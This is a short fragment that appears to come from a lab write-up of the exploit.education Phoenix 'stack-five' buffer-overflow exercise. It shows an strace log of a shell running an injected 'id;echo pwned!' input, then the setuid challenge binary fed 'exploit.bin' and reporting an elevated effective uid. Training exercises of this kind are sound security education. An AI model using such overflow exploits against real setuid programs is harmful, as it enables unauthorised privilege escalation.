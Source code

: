 ```console
mmap(NULL, 23717, PROT_READ, MAP_PRIVATE, 3, 0) = 0x7ffff7fc8000
close(3)                                = 0
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libc.so.6", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\2\1\1\3\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0@n\2\0\0\0\0\0"..., 832) = 832
fstat(3, {st_mode=S_IFREG|0755, st_size=1839792, ...}) = 0
mmap(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x7ffff7fc6000
mmap(NULL, 1852680, PROT_READ, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x7ffff7e01000
mprotect(0x7ffff7e26000, 1662976, PROT_NONE) = 0
mmap(0x7ffff7e26000, 1355776, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x25000) = 0x7ffff7e26000
mmap(0x7ffff7f71000, 303104, PROT_READ, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x170000) = 0x7ffff7f71000
mmap(0x7ffff7fbc000, 24576, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x1ba000) = 0x7ffff7fbc000
mmap(0x7ffff7fc2000, 13576, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0) = 0x7ffff7fc2000
close(3)                                = 0
arch_prctl(ARCH_SET_FS, 0x7ffff7fc7580) = 0
mprotect(0x7ffff7fbc000, 12288, PROT_READ) = 0
mprotect(0x55555576e000, 8192, PROT_READ) = 0
mprotect(0x7ffff7ffc000, 4096, PROT_READ) = 0
munmap(0x7ffff7fc8000, 23717)           = 0
getpid()                                = 1102
rt_sigaction(SIGCHLD, {sa_handler=0x555555564ef0, sa_mask=~[RTMIN RT_1], sa_flags=SA_RESTORER, sa_restorer=0x7ffff7e3cd60}, NULL, 8) = 0
geteuid()                               = 1000
brk(NULL)                               = 0x555555773000
brk(0x555555794000)                     = 0x555555794000
getppid()                               = 1100
getcwd("/home/user", 4096)              = 11
ioctl(0, TCGETS, 0x7fffffffebc0)        = -1 ENOTTY (Inappropriate ioctl for device)
rt_sigaction(SIGINT, NULL, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=0}, 8) = 0
rt_sigaction(SIGINT, {sa_handler=SIG_DFL, sa_mask=~[RTMIN RT_1], sa_flags=SA_RESTORER, sa_restorer=0x7ffff7e3cd60}, NULL, 8) = 0
rt_sigaction(SIGQUIT, NULL, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=0}, 8) = 0
rt_sigaction(SIGQUIT, {sa_handler=SIG_DFL, sa_mask=~[RTMIN RT_1], sa_flags=SA_RESTORER, sa_restorer=0x7ffff7e3cd60}, NULL, 8) = 0
rt_sigaction(SIGTERM, NULL, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=0}, 8) = 0
rt_sigaction(SIGTERM, {sa_handler=SIG_DFL, sa_mask=~[RTMIN RT_1], sa_flags=SA_RESTORER, sa_restorer=0x7ffff7e3cd60}, NULL, 8) = 0
read(0, "id;echo pwned!\n", 8192)       = 15
stat("/usr/local/sbin/id", 0x7fffffffea40) = -1 ENOENT (No such file or directory)
stat("/usr/local/bin/id", 0x7fffffffea40) = -1 ENOENT (No such file or directory)
stat("/usr/sbin/id", 0x7fffffffea40)    = -1 ENOENT (No such file or directory)
stat("/usr/bin/id", {st_mode=S_IFREG|0755, st_size=48064, ...}) = 0
clone(child_stack=NULL, flags=CLONE_CHILD_CLEARTID|CLONE_CHILD_SETTID|SIGCHLD, child_tidptr=0x7ffff7fc7850) = 1103
wait4(-1, uid=1000(user) gid=1000(user) groups=1000(user),27(sudo)
[{WIFEXITED(s) && WEXITSTATUS(s) == 0}], 0, NULL) = 1103
--- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_EXITED, si_pid=1103, si_uid=1000, si_status=0, si_utime=0, si_stime=0} ---
rt_sigreturn({mask=[]})                 = 1103
write(1, "pwned!\n", 7pwned!
)                 = 7
read(0, "", 8192)                       = 0
exit_group(0)                           = ?
+++ exited with 0 +++
```
```console
user@phoenix-amd64:~$ /opt/phoenix/amd64/stack-five < exploit.bin
Welcome to phoenix/stack-five, brought to you by https://exploit.education
uid=1000(user) gid=1000(user) euid=405(phoenix-amd64-stack-five) egid=405(phoenix-amd64-stack-five) groups=405(phoenix-amd64-stack-five),27(sudo),1000(user)
```